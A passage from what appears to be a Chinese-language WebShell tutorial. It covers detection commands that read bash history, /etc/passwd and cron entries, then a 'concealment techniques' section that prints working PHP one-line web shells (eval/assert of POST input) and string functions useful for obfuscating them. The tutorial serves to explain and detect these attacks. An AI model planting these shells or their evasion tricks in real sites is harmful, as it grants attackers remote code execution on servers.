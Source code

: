 #### 系统信息分析
通过查看一些系统信息来进行分析是否存在`WebShell`.

```sh
cat /root/.bash_history     // 查看命令操作痕迹.
cat /etc/passwd             // 查看有无新增的用户或者除 root 之外 uid 为 0 的用户.
crontab  /etc/cron*         // 查看是否有后门木马程序启动相关信息.
```

### Webshell 工具特征检测
该部分篇幅后续会单独进行讲解. 常见的`WebShell`工具如: 菜刀、冰蝎、蚁剑等, 通过对这些工具特征的检测来检测出木马.

# 隐蔽技巧
## PHP 一句话木马
先来看看最简单的一句话木马:

```php
<?php @eval($_POST['cmd']);?>
```

```php
<?php @assert($_POST['cmd']);?>
```

|函数|说明|
|:----:|:----:|
|`eval`|`PHP 4`, `PHP 5`, `PHP 7+`均可用, 接受一个参数, 将字符串作为`PHP`代码执行.|
|`assert`|`PHP 4`, `PHP 5`, `PHP 7.2`以下均可用, 一般接受一个参数, `PHP 5.4.8`版本后可以接受两个参数.|

主要注意的是, `PHP5`中`assert`是一个函数, 可以通过`$func='assert';$func(...);`这样的方法来动态执行任意代码; `PHP7`中`assert`不再是函数, 而是一个语言结构(类似`eval`), 不能再作为函数名动态执行代码.

<div align=center><img src="./images/1.png"></div>

## 字符串变换
常见的字符串变换的函数有:
```php
ucwords()           // 函数把字符串中每个单词的首字符转换为大写
ucfirst()           // 函数把字符串中的首字符转换为大写
trim()              // 函数从字符串的两端删除空白字符和其他预定义字符
substr_replace()    // 函数把字符串的一部分替换为另一个字符串
substr()            // 函数返回字符串的一部分
strtr()             // 函数转换字符串中特定的字符
strtoupper()        // 函数把字符串转换为大写
strtolower()        // 函数把字符串转换为小写
strtok()            // 函数把字符串分割为更小的字符串
str_rot13()         // 函数对字符串执行ROT13编码
```
